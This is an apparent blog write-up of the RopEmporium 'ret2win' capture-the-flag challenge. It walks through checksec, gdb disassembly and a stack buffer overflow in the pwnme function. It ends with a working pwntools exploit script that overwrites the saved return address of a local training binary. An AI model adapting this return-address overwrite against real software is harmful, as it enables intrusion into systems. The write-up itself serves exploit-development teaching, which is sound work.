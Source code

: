 ```yaml
---
title: RopEmporium - Ret2win
date: 2021-12-20 23:20:18
tags: [ropemporium, rop]
---
```


> Locate a method that you want to call within the binary. Call it by overwriting a saved return address on the stack.This challenge is classical pwn challenge of overwriting the return address with desired address you want to return to.

<!-- more -->

The binaries for the challenges can be downloaded from the author`s website [ropemporium](https://ropemporium.com).The goal of first challenge is to call the **ret2win** function.

After downloading the binary, the first is to check binary protection enabled on the binary using `checksec` utility.

```bash
vx@archie:ret2win$ checksec --file ret2win
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Only **NX** (Not executable) is enabled on the binary meaning we cannot execute code stored on the stack like `shellcode`. Toe analyze the behavior of the program we will use `gdb`. gdb is a tool that enables one to inspect the behavior of binaries at runtime.

```nasm
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000400528  _init
0x0000000000400550  puts@plt
0x0000000000400560  system@plt
0x0000000000400570  printf@plt
0x0000000000400580  memset@plt
0x0000000000400590  read@plt
0x00000000004005a0  setvbuf@plt
0x00000000004005b0  _start
0x00000000004005e0  _dl_relocate_static_pie
0x00000000004005f0  deregister_tm_clones
0x0000000000400620  register_tm_clones
0x0000000000400660  __do_global_dtors_aux
0x0000000000400690  frame_dummy
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400756  ret2win
0x0000000000400780  __libc_csu_init
0x00000000004007f0  __libc_csu_fini
0x00000000004007f4  _fini
(gdb)
```

The binary has various functions has as shown in the output above.For initial analysis we start at the `main` function which is the entrypoint of our program.

```nasm
(No debugging symbols found in ret2win)
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000400697 <+0>:	push   rbp
   0x0000000000400698 <+1>:	mov    rbp,rsp
   0x000000000040069b <+4>:	mov    rax,QWORD PTR [rip+0x2009b6]        # 0x601058 <stdout@@GLIBC_2.2.5>
   0x00000000004006a2 <+11>:	mov    ecx,0x0
   0x00000000004006a7 <+16>:	mov    edx,0x2
   0x00000000004006ac <+21>:	mov    esi,0x0
   0x00000000004006b1 <+26>:	mov    rdi,rax
   0x00000000004006b4 <+29>:	call   0x4005a0 <setvbuf@plt>
   0x00000000004006b9 <+34>:	mov    edi,0x400808
   0x00000000004006be <+39>:	call   0x400550 <puts@plt>
   0x00000000004006c3 <+44>:	mov    edi,0x400820
   0x00000000004006c8 <+49>:	call   0x400550 <puts@plt>
   0x00000000004006cd <+54>:	mov    eax,0x0
   0x00000000004006d2 <+59>:	call   0x4006e8 <pwnme>
   0x00000000004006d7 <+64>:	mov    edi,0x400828
   0x00000000004006dc <+69>:	call   0x400550 <puts@plt>
   0x00000000004006e1 <+74>:	mov    eax,0x0
   0x00000000004006e6 <+79>:	pop    rbp
   0x00000000004006e7 <+80>:	ret
End of assembler dump.
(gdb)
```

From the initial analysis of the main function,main call an interesting function called **pwnme**. Next is to disassemble **pwnme** function to understand the behavior.

```nasm
(gdb) disas pwnme
Dump of assembler code for function pwnme:
   0x00000000004006e8 <+0>:	push   rbp
   0x00000000004006e9 <+1>:	mov    rbp,rsp
   0x00000000004006ec <+4>:	sub    rsp,0x20
   0x00000000004006f0 <+8>:	lea    rax,[rbp-0x20]
   0x00000000004006f4 <+12>:	mov    edx,0x20
   0x00000000004006f9 <+17>:	mov    esi,0x0
   0x00000000004006fe <+22>:	mov    rdi,rax
   0x0000000000400701 <+25>:	call   0x400580 <memset@plt>
   0x0000000000400706 <+30>:	mov    edi,0x400838
   0x000000000040070b <+35>:	call   0x400550 <puts@plt>
   0x0000000000400710 <+40>:	mov    edi,0x400898
   0x0000000000400715 <+45>:	call   0x400550 <puts@plt>
   0x000000000040071a <+50>:	mov    edi,0x4008b8
   0x000000000040071f <+55>:	call   0x400550 <puts@plt>
   0x0000000000400724 <+60>:	mov    edi,0x400918
   0x0000000000400729 <+65>:	mov    eax,0x0
   0x000000000040072e <+70>:	call   0x400570 <printf@plt>
   0x0000000000400733 <+75>:	lea    rax,[rbp-0x20]
   0x0000000000400737 <+79>:	mov    edx,0x38
   0x000000000040073c <+84>:	mov    rsi,rax
   0x000000000040073f <+87>:	mov    edi,0x0
   0x0000000000400744 <+92>:	call   0x400590 <read@plt>
   0x0000000000400749 <+97>:	mov    edi,0x40091b
   0x000000000040074e <+102>:	call   0x400550 <puts@plt>
   0x0000000000400753 <+107>:	nop
   0x0000000000400754 <+108>:	leave
   0x0000000000400755 <+109>:	ret
End of assembler dump.
```

From analysis of the above assembly code, we fill a buffer of size 0x20(32bytes) with a constant byte of zero. **memset** is used to overwrite any values present memory area specified. The memory we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32 bytes from the address of base pointer as shown in the stack diagram below.

![](/images/ropemporium/stack.png)

Next function is **read** function, which reads from the standard input file descriptor and stores in the specified buffer.From the disassembled code we are reading 0x38 bytes from the user input and storing it in our buffer.

```c
read(0, *[rbp-0x20], 0x38) //0 is file descriptor stdin
```

Because we are reading more than what the buffer can hold, we corrupt the adjacent memory regions therefore causing a stack buffer overflow. Therefore in order to control the return address as shown in the stack image above is to fill the buffer, overwrite the `rbp` register and control the return address with **ret2win** function address.

The exploit code for this ret2win function is,

```python
import pwn

pwn.context.encoding = "latin-1"
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process('./ret2win')

payload = b"A" * 32 # fill the buffer
payload += b"B" * 8  #overwrite saved base pointer
payload += pwn.p64(0x400756)  #Address of ret2win function
io.writeafter('>', payload)

pwn.info(io.clean().decode())
```

Running the above script we get correct flag.

```bash
vx@archie:ret2win$ python3 x.py
[+] Starting local process './ret2win': pid 45427
[*]  Thank you!
    Well done! Here's your flag:
    ROPE{a_placeholder_32byte_flag!}
[*] Process './ret2win' stopped with exit code 0 (pid 45427)
```
